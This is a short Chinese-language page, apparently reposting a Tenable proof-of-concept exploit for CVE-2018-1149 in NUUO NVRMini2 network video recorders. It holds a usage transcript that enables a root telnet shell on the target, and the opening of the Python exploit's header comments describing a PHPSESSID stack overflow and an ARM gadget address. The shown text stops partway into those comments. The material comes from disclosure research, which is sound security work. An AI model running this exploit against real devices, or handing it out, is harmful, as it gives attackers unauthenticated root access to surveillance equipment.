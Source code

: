 版本：

- 03.07.0000.0011
- 03.08.0000.0005

[地址](https://github.com/tenable/poc/tree/master/nuuo/nvrmini2)

   ####  nvrmini2_enable_telnet.py : 漏洞利用进行telnet

###### Usage Example:

```shell
albinolobster@ubuntu:~$ telnet 172.20.10.52
Trying 172.20.10.52...
telnet: connect to address 172.20.10.52: Connection refused
telnet: Unable to connect to remote host
albinolobster@ubuntu:~$ python nvrmini2_enable_telnet.py 172.20.10.52 80
[+] Checking for a valid target...
[+] Valid target!
[+] Executing mount -t devpts devpts /dev/pts on 172.20.10.52:80...
[+] Executing /bin/sh -c "/usr/sbin/telnetd -l /bin/bash -b 0.0.0.0"& on 172.20.10.52:80...
[+] Success!
albinolobster@ubuntu:~$ telnet 172.20.10.52
Trying 172.20.10.52...
Connected to 172.20.10.52.
Escape character is '^]'.

root@test:/NUUO/bin# whoami                                                   
root
```



POC如下

```python 
import requests
import socket
import sys
 
##
# Exploit Title: NUUO NVRMini2 3.8 Enable Telnet
# Date: September 17, 2018
# Exploit Author: Jacob Baines
# Vendor Homepage: https://www.nuuo.com/
# Device: NRVMini2
# Software Link: https://www.nuuo.com/ProductNode.php?node=2
# Versions: 3.8.0 and below
# Tested Against: 03.07.0000.0011 and 03.08.0000.0005
# Tested on: Ubuntu and OSX
# CVE: CVE-2018-1149
# TRA: https://www.tenable.com/security/research/tra-2018-25
# Description:
#
# A stack buffer overflow exists in the cgi_system binary. The error occurs
# due to lack of bounds checking on the PHPSESSID value before and when
# it is passed to sprintf in order to generate the session id file name.
#
# As written, this exploit enables Telnet.
###

##
# Executes a command via the stack buffer overflow in cookie parsing. The command
# is executed via 'system' as root. The overlow logic is like so:
#
# address 1: 405e2e34 - load system into r3 and address 2 into lr
#
# .text:000D0E34 0F 48 BD E8                 LDMFD   SP!, {R0-R3,R11,LR}
```
